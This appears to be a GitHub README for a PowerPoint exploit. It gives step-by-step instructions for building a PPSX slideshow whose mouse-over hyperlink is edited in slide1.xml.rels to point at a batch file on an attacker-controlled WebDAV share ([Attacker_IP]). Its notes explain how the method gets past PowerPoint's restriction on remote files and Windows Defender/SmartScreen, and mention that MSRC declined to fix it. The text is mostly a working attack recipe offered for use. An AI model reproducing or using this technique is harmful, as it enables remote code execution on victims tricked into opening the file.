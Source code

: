 ## Steps to reproduce the exploit

1. In Powerpoint it is possible to set an action on a mouse over or mouse click 

2. We can set a file to be executed and this was exploited by attackers in 2017 where a particular powershell command could be run 

3. Since that vulnerability was patched, this one is an extension to it where instead of using "Run Program" action we use "HyperLink To" action and set it to a "Other file"

4. Then we can select a file within the system.

5. Save the Powerpoint file as PPSX or PPS

6. Then open the PPSX file using a ZIP program and change the value in "\ppt\slides_rels\slide1.xml.rels"  of rID which is connected to your mouse over event to "file:///\\[Attacker_IP]\webdavfolder\file.bat"

7. Due to the way SMB connections work in Windows 10, SMB connections over Internet are possible even if SMB ports (445/139) are closed  if a webserver supporting WEBDAV extension is hosted by an attacker

8. Now hover over your the text and observe that user just needs to acccept the pop-ups and this allows the program to be executed

9. Combined with social engineering this attack would work completely.

## Note:
1. The attack is able to bypass the Powerpoint's restriction of not being able to add a remote file to the HyperLink action which if we try to add using the GUI, we will see Powerpoint complaining about it

2. Also if a HTTP/HTTPS url is linked with the hyperlink action, then the OS would download the file using a browser on the system at which point Windows Defender/Smartscreen would kick in indicating that it is an untrusted file and even if we hit 'Run', it will quartine the file, so an attacker can bypass that using this method

3. MSRC was contacted about the vulnerability, but they decided to ignore it and stated that since it requires social engineering attack, they are not willing to fix it

![](exploit.gif)
